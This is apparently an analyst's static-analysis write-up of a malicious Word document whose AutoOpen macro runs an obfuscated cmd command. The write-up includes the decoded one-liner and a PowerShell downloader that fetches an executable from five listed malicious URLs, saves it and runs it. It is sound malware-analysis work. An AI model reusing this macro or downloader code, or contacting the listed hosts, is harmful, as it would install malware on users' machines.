


# Doc3134.doc Static Analysis

**Objective:** understand how the document triggers infection and correlate 
with network findings.

## Detection

```bash
olevba Doc3134.doc
```



Results:
- AutoExec macro `AutoOpen` (runs when the document is opened)
- Call to `Shell()` a VBA function that hands off execution to the OS, 
  here running a command through `cmd.exe`
- Heavy string obfuscation flagged (Hex, Base64, VBA string concatenation)

## Code Structure

The command is split into several variables, spread across 3 functions 
(`zLoVYvwUjd`, `wNVRaCTTRDZ`, `ZmsVpwIv`).

There is **variable** inside each function, joined on the final line:

```vba
zLoVYvwUjd = nKYwiHm + ucTCcZbivf + RtNImGt + nUHkziLB + awcur + EzInq + zzXAiiz + pcAkdrk + lNvzrDHjfhQ + LBzPYs
```

**Functions** are combined in the `Shell()` call:

```vba
VBA.Shell CleanString(nw) + fBwHPqz + XIiGasEt + zLoVYvwUjd + wNVRaCTTRDZ + ZmsVpwIv + vWEPjzldwzlrz + jBcjRviKanpC, 10 - 10
```

## Obfuscation

- Junk code: meaningless `Hour("...")` calls wrapped in `On Error Resume Next`

```vba
On _
Error _
Resume _
Next
   Hour "8130" + "NCCBXS" + "419625218" + "fRbaJV"
```

- String fragmentation: the command is split into many small pieces joined 
  with `+`

```vba
nKYwiHm = "cmd /V^" + ":^ON/C" + Chr(2 + 5 + 4 + 4 + 19) + "^s^e^" + "t " + "^i"
```

- Reversed string: part of the payload is stored backwards, rebuilt at 
  runtime by a `FOR /L` loop

```vba
hOZiYJt = "f^o" + "r /" + "^L %" + "^" + "M ^in" + " (3^" + "64" + "^;^-^1;" + "0)d^o" + " ^s^" + "e^t Cr" + "^9^"
```

## Deobfuscation

`olevba --deobf` was tested but its output was not 
easier to reassemble than the raw macro source. The following manual 
process was used instead:

1. Fragments identified directly from the raw `olevba Doc3134.doc` output.
2. Fragments manually copied and reassembled, in the order given by each 
   function's final assignment line.
3. In CyberChef: `+`, quotes and `^` removed (Find/Replace).
4. Combined result reversed once (Reverse), matching the `FOR /L` loop 
   found in the code.



## Decoded Payload

Before running, the PowerShell payload is wrapped in a batch command that 
hides it as a reversed string, decoded only at runtime.

```cmd
cmd /V:ON /C set iT=}}{hctac};kaerb;HndmetI-ekovnI;)Hnd,wjW(eliFdaolnwoD.jkd{yrt{)ICzniwjW(hcaerof;'exe.'Tvs'\'cilbup:vne=Hnd;'22'=Tvs;)'@'(tilpS.'b1CSj5b/hc.aidemkam//:ptth@elamP0O/ac.erveilal//:ptth@ViXSFhJ8BI/se.esojyamni//:ptth@xpC3V96/ua.moc.ralucsavcn//:ptth@6Z6jglyzo/moc.aidnalotrohsolob//:ptth'=ICz;tneilCbeW.teNtcejbo-wen=jkdllehsrewop&&for /L %M in (364;-1;0) do set Cr9S=!Cr9S!!iT:~%M,1!&&if %M==0 call %Cr9S:~6%
```

- `set iT=...` stores the PowerShell command reversed, character by character.
- `for /L %M in (364;-1;0) do ...` reads `iT` backwards (position 364 → 0), 
  rebuilding it in the correct order into `Cr9S`.
- `if %M==0 call %Cr9S:~6%` executes the reconstructed command once fully 
  rebuilt.

Reversing `Cr9S` once gives the payload documented below.

```powershell
powershell $dkj = New-Object Net.WebClient;
$zCI = 'http://boloshortolandia.com/ozylgj6Z6@http://ncvascular.com.au/69V3Cpx@http://inmayjose.es/IB8JhFSXiV@http://lalievre.ca/O0Pmale@http://makmedia.ch/b5jSC1b'.Split('@');
$svT = '22';
$dnH = $env:public + '\' + $svT + '.exe';
foreach ($Wjw in $zCI) {
    try { $dkj.DownloadFile($Wjw, $dnH); Invoke-Item $dnH; break; }
    catch {}
}
```

5 fallback URLs, first successful download runs immediately, saved as 
`%public%\22.exe`.
## Conclusion

Doc3134.doc is the initial access vector. The macro auto-executes when the 
file is opened and downloads a payload via PowerShell. Only `boloshortolandia.com/ozylgj6Z6` responded during capture, matching the 
HTTP GET to 192.241.188.55 that delivered `rFrUanXYL.exe`.
